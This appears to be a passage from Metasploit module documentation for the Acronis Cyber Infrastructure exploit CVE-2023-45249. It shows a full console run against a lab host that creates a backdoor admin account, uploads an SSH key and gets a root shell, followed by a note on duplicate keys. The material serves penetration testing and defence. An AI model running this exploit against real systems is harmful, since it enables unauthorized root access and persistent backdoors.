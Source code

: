 ```msf
|      . o=++.+ o |
|       ==.B=oo. .|
|      .oSo=== .  |
|         o Bo    |
|          +.     |
|         . .     |
|          .      |
+----[SHA256]-----+
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set PRIV_KEY_FILE /tmp/aci_rsa
PRIV_KEY_FILE => /tmp/aci_rsa
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user gzarzyh with password XiloxPsdto for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Using your own SSH private key file: /tmp/aci_rsa in PEM format.
[*] Saving SSH public and private key pair at the msf database.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:40083 -> 192.168.201.5:22) at 2024-09-20 09:40:22 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
ls -l .ssh
total 4
-rw------- 1 root root 872 Sep 20 11:40 authorized_keys
cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCauf4JO4xGHWulsoHHOwTXztTvJ4FQz92RTicFIqqHOPvR3vsXkWYJP4vE109/ZnUh64jsMqMb+x66q3+D86rts/ST4smpMjQpL2uwfrn3KHKwVmH7vMYb07q4F8M2nw4TgzYcsXONqAyxmbW0ZJ3P3CdlXXiXMvyUmy55OyVgaBnjoiE1GJxXnssCqPMkf0MaZfZqaaBk3onaKnJ4pRROHe1LEaagSM7dOHjS1F6ViVUYtcfFLQfXj4Q7WsWS5uSUy6HkxDn5PNvzUli7SDJ5aPTDqmmeDjzoVlUl7ZP4CYZlrTpZ1v0C0IuI3qlZmuHPuGaCDN7ymPsRUV71aqv3 root VSTOR-KEY-ID:1966f610-e22a-4147-bec3-4cfb945bdee7
```

## Limitations
When using your own SSH private key, be aware of the fact that you can not upload the same SSH public key twice via Acronis Web Portal.
Duplicate SSH public keys are not allowed and the exploit will fail if this occurs.
